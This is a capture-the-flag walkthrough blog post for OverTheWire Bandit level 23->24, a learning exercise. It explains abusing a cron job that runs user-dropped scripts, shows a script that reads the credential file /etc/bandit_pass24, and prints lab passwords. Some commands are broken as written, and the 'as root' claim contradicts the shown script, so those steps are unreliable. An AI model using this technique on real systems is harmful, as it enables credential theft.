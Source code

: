 ```yaml
---
layout: post
author: mike
series: bandit
---
```


### Level 23 -> 24
#### Game Instructions
> A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

>NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

>NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

This one looks a bit similar to the previous 2 levels... Let's dig in!

```
ssh -p 2220 bandit23@bandit.labs.overthewire.org
password: jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
```

As the hint says: We need to investigate the `/etc/cron.d` file to see what is happening:
```sh
#!/bin/bash
myname=$(whoami)
cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        timeout -s 9 60 ./$i
        rm -f ./$i
    fi
done
```

We can see that the file is systematically (every 60 sceonds) running every script **as root** in the `/var/spool/$myname` directory and immediately deleting the file after executing.

Because the script is being run as root, we can exploit this if we can manage to get a script in the `/var/spool/bandit24` directory that spits on the password.
First, let's create a directory to do some work in:
`mkdir /tmp/myfancydirectory`
And a file that the password will be copied to:
`touch /tmp/myfancydirectory/thisisthepassword`
Next, let's whip up a simple script:
`nano istealyourpass.sh`
```
#!/bin/bash

cat /etc/bandit_pass24 > /tmp/myfancydirectory/thisisthepassword
```
This will copy the password to a file called `thisisthepassword`
Let's `chmod` it so the script can execute it
`chmod 777 /tmp/myfancydirectory/istealyourpass`
Now let's quickly copy the file to the `/var/spool/bandit24` directory so it can be picked up
`cp /tmp/myfancydirectory/istealyourpass`
And we wait for it to run.
After a little bit we check the directory and bam we have the password:
New password: `UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ`
